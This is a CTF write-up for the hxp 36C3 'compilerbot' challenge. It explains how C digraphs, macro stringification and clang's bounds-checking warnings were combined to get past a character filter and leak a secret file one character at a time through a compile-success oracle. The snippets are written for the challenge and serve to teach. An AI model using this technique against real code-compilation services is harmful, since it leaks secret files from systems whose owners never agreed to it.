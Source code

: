 # compilerbot

Writeup by [@liadmord][@liad] and [@tmr232][@tamir]

<br/>

The premise of this exercise is pretty straight-forward. We were given access to a server running the following code, and the knowledge that the flag (`hxp{FLAG}`) is in a file named `flag` in the server's working directory.

```python
#!/usr/bin/env python3

import base64
import subprocess

code = base64.b64decode(input('> ')).decode()                                    # (1)
code = 'int main(void) {' + code.translate(str.maketrans('', '', '{#}')) + '}'   # (2)

result = subprocess.run(['/usr/bin/clang', '-x', 'c', '-std=c11', '-Wall',       # (3)
                         '-Wextra', '-Werror', '-Wmain', '-Wfatal-errors',
                         '-o', '/dev/null', '-'], input=code.encode(),
                        stdout=subprocess.PIPE, stderr=subprocess.STDOUT,
                        timeout=15.0)

if result.returncode == 0 and result.stdout.strip() == b'':                      # (4)
    print('OK')
else:
    print('Not OK')
```

The code (1) gets a string from the user; (2) removes all `{`, `#`, and `}` characters from the code, then place it inside the `main()` function; (3) compiles the _C_ code (not C++) with more warnings than the usual; (4) reports whether the compilation succeeded.
So we write code, the server compiles, and somehow we manage to leak the flag.

From the get go, it is clear to use that we need to `#include` the flag. But there is an issue - the code at (2) removes all `#` characters from our input, making it impossible to `#include`. Luckly, there's a way around it, and for once, our esoteric C knowledge came in handy. To enter the forbidden characters, we decided to use [digraphs][digraphs]. Digraphs (and trigraphs) are alternative token representations, added to C way back when to support some weird, non-standard 7-bit character encodings. The need is now gone, but the legacy tokens remain. With that in mind, replacing `#`, `{`, and `}` with `%:`, `<%`, and `%>` respectively allows us to `#include` and define functions:

```c
int main(void) {
%>

%: include "flag"

void f(void) <%
}
```

Or, after some "preprocessing" (the C preprocessor does not replace the alternative tokens, as they are valid C tokens):


```c
int main(void) {
}

hxp{FLAG}

void f(void) {
}
```

Great! This give us... absolutely nothing. `hxp` is not an existing identifier, `FLAG` is not an existing identifier (and possibly not even valid C, at the time we assumed it was a valid identifier name). The compiler hates us.
First, we tried to do something about the `hxp` at the start, thinking that if we isolate the `FLAG` part, we might have something to do with it. So we tried `#define hxp`, and many other preprocessor tricks, but didn't make any progress on that front.

At some point, we figured that if we can have it as a string, we might be able to do something with it. We didn't know what, but it was our only visible way forward. On the other hand, we had no idea how to do that, and StackOverflow was [not too helpful][SO Answer]. So we kept messing around, trying random preprocessor ideas until we came up with the following trick:

```c
#define test(a) const char flag_string[] = a;
#define to_string(a) test(#a)
#define hxp to_string(
#include "flag"
)
```

and after preprocessing using `clang -E` (assuming the contents of `flag` are `hxp{FLAG}`:

```c
const char flag_string[] = "{FLAG}";
```


If we understand it correctly, by replacing `hxp` with `to_string(` we allow calling a stringifying macro on `{FLAG}`. This works only because we know the flag starts with a valid identifier we can replace. Without that, we would not have been able to convert it to a string. Now all we need to do is find a way to get the string's contents...

At this point, while testing our code over on [Compiler Explorer][godbolt], we were getting tired of random warnings (unused variables, for example) slowing us down. So we went ahead and disabled all warnnings from within the code using `#pragma clang diagnostics ignote "-Weverything"`. This gave us some peace and quiet, as now only hard errors would kill the compilation.

With the compiler playing along, we were desperately looking for a way to get the flag, or at least its length. Anything!
After some experimentation, and many cycles of "I have a solution! Wait, no. I forget that we get the compiler's return code and not the program's. Sorry.", a new idea came to mind - maybe we can use compiler warnings to aid us? Lucky for us, today's compilers incorporate some fancy bounds-checking on array accesses. So by trying to access our `flag_string` at growing indices, we should be able to get the flag's length!

```c
#define test(a) const char flag_string[] = a;
#define to_string(a) test(#a)
#define hxp to_string(
#include "flag"
)

const char c = flag_string[INDEX];
```

After preprocessing:

```c
const char flag_string[] = "{FLAG}";

const char c = flag_string[INDEX];
```

And... It failed. While sneaking out of `main()` looked like a nice idea, we had to place this code inside a function. While `flag_string` is constant, it is not considered a "compile time constant" and therefore cannot be used to initialize another variable in the global scope.

```c
void f() {
  #define test(a) const char flag_string[] = a;
  #define to_string(a) test(#a)
  #define hxp to_string(
  #include "flag"
  )

  const char c = flag_string[INDEX];
}
```

That's better. Some automation (and runtime) later, we had the length! Now all we needed was the actual flag. For that, we used a slight variation of the same trick. This time, we were not using a number we control to access an array, but a character from the flag to access an array we control. 

```c
const char my_array[LENGTH] = {0};

my_array["{FLAG}"[INDEX]];
```

In each iteration, we try to guess the character at index `INDEX` in the flag. Assuming the flag is made of only letters, digits, and punctuation gives us a number between 33 and 126. If, for example, the character we're guessing is `A`, it's ordinal value (Python's `ord('A')`) is 65. This means that compilation will fail for every `LENGTH <= 65`. Once `LENGTH` reaches 66, compilation will succeed, we'll know the character is `A`, and increment `INDEX` to test the next character.
Note that here we no longer place `"{FLAG}"` in a variable, but use it as a literal. This is important, as clang will not warn on the out-of-bounds access if we dereference a variable (again, it is not a compile-time constant, so the compiler can't know).

Now all we had to do is enumerate and wait for the flag to appear on the screen. With our naive solution, it took quite a long time for the results to appear, and we wanted to get some sleep. So in the old tradition of hacking CTF solutions late at night, we just ran 7 instances at the same time, each one running from a different point. Parallelization works!

`hxp{Cl4n6_15_c00l_bu7_y0u_r34lly_0u6h7_70_7ry_gcc_-traditional-cpp_s0m3_d4y}`

The flag appeared, we posted it, first-blooded the challenge, and went to sleep.

Our full solution is [here][compilerbot.py], configured to work with a [local server][server.py] so that you can try it out. The solution is multithreaded to make it run faster than our original version; it is complete, where our original was edited and only provided either the length or the flag, but not both; but mostly the same code other than that.

[SO Answer]: https://stackoverflow.com/questions/1246301/c-c-can-you-include-a-file-into-a-string-literal 
[digraphs]: https://en.cppreference.com/w/cpp/language/operator_alternative
[compilerbot.py]: https://github.com/tmr232/writeups/blob/master/hxp-36c3-ctf/compilerbot/compilerbot.py
[server.py]: https://github.com/tmr232/writeups/blob/master/hxp-36c3-ctf/compilerbot/service.py
[@liad]: https://twitter.com/liadmord
[@tamir]: https://twitter.com/tmr232

